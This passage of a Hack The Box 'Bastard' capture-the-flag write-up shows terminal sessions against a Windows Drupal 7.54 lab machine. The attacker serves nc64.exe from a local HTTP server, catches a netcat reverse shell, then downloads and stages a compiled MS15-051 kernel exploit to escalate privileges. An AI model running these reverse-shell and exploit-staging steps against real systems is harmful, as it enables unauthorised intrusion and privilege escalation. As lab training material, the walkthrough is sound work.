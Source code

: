 ```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4278]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [17/Apr/2019 03:01:37] "GET /nc64.exe HTTP/1.0" 200 -
```

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4276]
╰─[:)] # nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 49283
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54> whoami
whoami
nt authority\iusr
```

## Privilege Escalation
Among the results thrown by the **Sherlock.ps1**, we will focus on the following:  

```
Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
```

To try to exploit this vulnerability, we can download the compiled exploit from the following route:  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4283]
╰─[:)] # wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS15-051/MS15-051-KB3045171.zip
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4283]
╰─[:)] # unzip MS15-051-KB3045171.zip
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4283]
╰─[:)] # mv /MS15-051-KB3045171/ms15-051x64.exe ./server
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[1]─[4291]
╰─[:(] # ls -la
total 680
drwxr-xr-x 2 root root   4096 Apr 17 03:12 .
drwxr-xr-x 4 root root   4096 Apr 17 03:11 ..
-rw-r--r-- 1 root root  55296 May 13  2015 ms15-051x64.exe
-rw-rw-r-- 1 root root  43696 Dec 26  2010 nc64.exe
-rw-r--r-- 1 root root 562858 Apr 16 03:58 PowerUp.ps1
-rw-r--r-- 1 root root  16678 Apr 16 04:24 Sherlock.ps1
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4283]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
